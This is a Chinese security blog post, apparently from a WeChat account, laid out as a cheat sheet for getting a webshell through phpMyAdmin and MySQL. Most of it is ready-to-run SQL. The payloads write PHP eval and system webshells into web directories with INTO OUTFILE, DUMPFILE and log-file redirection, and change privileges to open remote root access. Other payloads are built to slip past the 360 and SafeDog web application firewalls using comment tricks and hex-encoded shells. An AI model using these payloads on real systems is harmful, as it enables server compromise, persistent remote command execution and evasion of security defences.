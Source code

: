 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/AYhwvH8Nb2wn-DElN5oi2w)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

**所有话题标签：**

[#Web 安全](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1558250808926912513&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#漏洞复现](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1558250808859803651&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#工具使用](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1556485811410419713&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#权限提升](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559100355605544960&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

[#权限维持](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1554692262662619137&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#防护绕过](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1553424967114014720&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#内网安全](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559102220258885633&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#实战案例](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1553386251775492098&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

[#其他笔记](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559102973052567553&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)   [#资源分享](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559103254909796352&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect) [](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1559103254909796352&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect) [#MSF](https://mp.weixin.qq.com/mp/appmsgalbum?action=getalbum&album_id=1570778197200322561&__biz=Mzg4NTUwMzM1Ng==#wechat_redirect)

 |

**0x01 前言**

phpMyAdmin 是一个以 PHP 为基础的 MySQL 数据库管理工具，管理者可以通过 Web 方式来控制和操作 MySQL 数据库。phpMyAdmin 在 MySQL 和 MariaDB 上支持多种操作，可以直接在用户界面中执行常用操作，如：浏览 / 删除 / 创建 / 复制 / 删除 / 重命名和更改数据库、表、视图、字段和索引，管理 MySQL 用户帐户和权限等，也可以直接执行 SQL 语句。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BclPiahDJpN6JD3NMMGnl0ov052qgkw9EiaohibRp5IiczibW9ibcoyBgqIOEg/640?wx_fmt=png)

  

**0x02 Getshell 常见报错**

**(1) #1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement  
**

```
show global variables like "%secure%";      //查询secure_file_priv配置
secure_file_prive=null                      //不允许导入导出数据到目录
secure_file_priv=c:\90sec                   //允许导入导出数据到指定目录
secure_file_priv=""                         //允许导入导出数据到任意目录
secure_file_priv="/"                        //允许导入导出数据到任意目录
```

****注：****在 my.ini、my.cnf、mysqld.cnf 文件中找到 secure_file_prive 并将其值设置为空 ""或斜杠"/"，然后重启 MySQL 服务即可！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcVtARaRic8znfrNuVH4kaEVNHKekNnPlH3icqbdhBjE9oRf4ZL58whq1A/640?wx_fmt=png)

#### **(2) #1045 - Access denied for user 'root'@'localhost' (using password: YES)** 

```
select * from mysql.user;                                //查询所有用户权限
select * from mysql.user where user="root";              //查询root用户权限
update user set File_priv ='Y' where user = 'root';      //允许root用户读写文件
update user set File_priv ='N' where user = 'root';      //禁止root用户读写文件
flush privileges;                                        //刷新MySQL系统权限相关表
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcZY0AteZUOlvzRhzBDNdSBf3ibg4o6COU8qfAIeGwYicmzNNS3UL4JTpg/640?wx_fmt=png)

****0x03 Getshell 方式小结****

#### (1) 读取 / 导出中文路径

```
load data infile 'C:\\phpStudy\\WWW\\90sec.php' into table user;
select load_file(concat('C:\\phpStudy\\WWW\\',unhex('b2e2cad4') ,'\\90sec.php'));

set character_set_client='gbk';set character_set_connection='gbk';set character_set_database='gbk';set character_set_results='gbk';set character_set_server='gbk';select '<?php eval($_POST[pass]);?>' into outfile 'C:\\phpStudy\\WWW\\测试\\90sec.php';
```

#### (2) 常规导出 Webshell-1

```
Create TABLE shadow9 (content text NOT NULL);
Insert INTO shadow9 (content) VALUES('<?php @eval($_POST[pass]);?>');
select content from shadow9 into outfile 'C:\\phpStudy\\WWW\\90sec.php';

DROP TABLE IF EXISTS `shadow9`;
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7Bctuu4DtOKP8AhG2R6BzTd372SYmm6BSL1jJXbhEIibpTAfMUhniaZp0JA/640?wx_fmt=png)

#### (3) 常规导出 Webshell-2

```
select '<?php @eval($_POST[pass]);?>' into outfile 'c:/phpstudy/www/90sec.php';  
select '<?php @eval($_POST[pass]);?>' into outfile 'c:\\phpstudy\\www\\90sec.php';
select '<?php @eval($_POST[pass]);?>' into dumpfile 'c:\\phpstudy\\www\\bypass.php';

select '<?php echo \'<pre>\';system($_GET[\'cmd\']); echo \'</pre>\'; ?>' into outfile 'C:\\phpStudy\\WWW\\90sec.php';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcSvIgAh5HBPR9eGcUItExv6fjD3R49Fibun4E69FcTxO7fwnEj8Y9eQQ/640?wx_fmt=png)  

#### (4) general_log Getshell

```
show global variables like "%genera%";                      //查询general_log配置
set global general_log='on';                                //开启general log模式
SET global general_log_file='C:/phpStudy/WWW/cmd.php';      //设置日志文件保存路径
SELECT '<?php phpinfo();?>';                                //phpinfo()写入日志文件
set global general_log='off';                               //关闭general_log模式
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcM5WjwQFjgscSAzTibibdXRCaYDGTFAN75854MPiajsOYXz6o7zq2OLIgQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7Bc6ofz77qqlTMHOY10NNI3oeicgiaeqNoWRpMR1IxiabwO46jvKcVAQdn7w/640?wx_fmt=png)

**注：**高版本 MySQL 数据库中一般都默认配置了 secure_file_priv 变量值为 null，限制了文件的导入导出，这时我们可以尝试利用 MySQL 的 general_log 和 slow_query_log 日志文件写入 Webshell。

#### (5) slow_query_log_file Getshell

```
show variables like 'slow_query_log_file';
set global slow_query_log=on;
set global slow_query_log_file="C:\\phpStudy\\WWW\\shell.php";
select sleep(15),'<?php phpinfo();?>';
set global slow_query_log=off;
```

****注：****利用 general_log 或 slow_query_log 在成功写入 Webshel 后建议立即 OFF 关闭，否则可能会因为 php.ini 配置文件中的 memory_limit 参数设定的内存值太小而出现 “内存不足” 的报错。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7Bc6VtUxNTXKQaOD2xdOoRGhhhlq7eJ7MDibx95Y6HV5icjpxySpZ1Ubfmg/640?wx_fmt=png)

Windows 报错：

```
#29 - File 'C:\phpStudy\PHPTutorial\testing\cmd.php' not found (Errcode: 13)
```

Linux 报错：

```
#1231 - Variable 'general_log_file' can't be set to the value of '/home/wwwroot/default/cmd.php'
```

出错原因：

```
MySQL运行用户与网站目录对应用户的写入/修改权限问题，需要给予网站目录所需权限才能解决该问题！
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7Bcz7V1ZsHrjXqvJicyZFNSbqSnr7wCNUdZKvicnlNqJkhYibxEpCuTIkFiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcwohchF0MIHp23u4LR8Ied3qWZAAbFFYfpvA3ibPmCdrz2mwz8vItcyg/640?wx_fmt=png)

#### (6) 绕过 WAF Getshell-1

phpMyAdmin 导出 Webshell 时如果遇到 WAF 可能就会被拦截，因为 WAF 会检测我们提交的 POST、GET 数据包内容中是否含有危险函数、SHELL 特征等，如果有则拦截，没有则放行。

这时我们可以尝试开启外链来执行导出 Webshell 的 SQL 语句，因为这样走的不是 POST、GET 方式，所以这样执行 SQL 语句是不会被 WAF 拦截的。

```
grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;    //开启MySQL外链
flush privileges;                          //刷新MySQL系统权限相关表
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcPnaGtzZIRuLNqtKialTtXryR8IvlAaRerXZQyY2Lk01QRctgHJA0gWA/640?wx_fmt=png)

#### (7) 绕过 WAF Getshell-2

检测我们提交 SQL 语句的 POST、GET 数据包中是否包含的有 WAF 特征库中的危险函数、SHELL 特征等，如：select、outfile、eval、assert 等这样的就会被拦截。

```
select '<?php @eval($_POST[pass]);?>' into outfile 'c:/phpstudy/www/90sec.php';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7Bc9zTma50awxgZorTkmxRiau7oSQuS7jIPUwicqkcpWH0I618r8F3YxxCw/640?wx_fmt=png)

绕过 360 网站卫士：

```
select '<?php @eval($_POST[pass]);?>' into /*!50001outfile*/ 'c:/phpstudy/www/bypass.php';
```

绕过网站安全狗（<4.0）：

```
select 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```

**注：**Hex 编码，提交时虽然会显示拦截，但其实 [过狗马] 已经被写进去了！

绕过网站安全狗（4.0 正式版）：

```
/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfn3ZxIYNibVSAAuaYWfC7BcbvDC9oOcYqiblb34wqpuTWPjjsDYr3aBXJFicNRz91AqyNTC4ia106pMQ/640?wx_fmt=png)

只需在公众号回复 “9527” 即可领取一套 HTB 靶场学习文档和视频，回复 “1120” 领取黑客防线和安全参考等安全杂志 PDF 电子版，你还在等什么？？？

**【往期 TOP5】**

[绕过 CDN 查找真实 IP 方法总结](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484585&idx=1&sn=28a90949e019f9059cf9b48f4d888b2d&chksm=cfa6a0baf8d129ac29061ecee4f459fa8a13d35e68e4d799d5667b1f87dcc76f5bf1604fe5c5&scene=21#wechat_redirect)

[站库分离常规渗透思路总结](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484281&idx=1&sn=4d9fdae999907b222b0890fccb25bbcc&chksm=cfa6a76af8d12e7c366e0d9c4f256ec6ee6322d900d14732b6499e7df1c13435f14238a19b25&scene=21#wechat_redirect)  

[谷歌浏览器插件 - 渗透测试篇](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484374&idx=1&sn=1bd055173debabded6d15b5730cf7062&chksm=cfa6a7c5f8d12ed31a74c48883ab9dfe240d53a1c0c2251f78485d27728935c3ab5360e973d9&scene=21#wechat_redirect)  

[谷歌浏览器插件推荐 - 日常使用篇](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484349&idx=1&sn=879073cc51e95354df3a36d0ed360b62&chksm=cfa6a7aef8d12eb8874da853904847c8c31ff96de4bab3038ce004c92f3b130c36f24c251cc9&scene=21#wechat_redirect)

[绕过 360 安全卫士提权实战案例](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484136&idx=1&sn=8ca3a1ccb4bb7840581364622c633395&chksm=cfa6a6fbf8d12fedb0526351f1c585a2556aa0bc2017eda524b136dd4c016e0ab3cdc5a3f342&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJ6X5g7wBvlRrvCcGXUd61L5Aia8VREQibSXkfcwicxpAEoAUMFGfKhHuiaA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJk2Cx54PBIoc0Ia3z1yIfeyfUV61mn3skB5bGP3QHicHudVjMEGhqH4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)  如果对你有所帮助，点个分享、赞、在看呗！![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)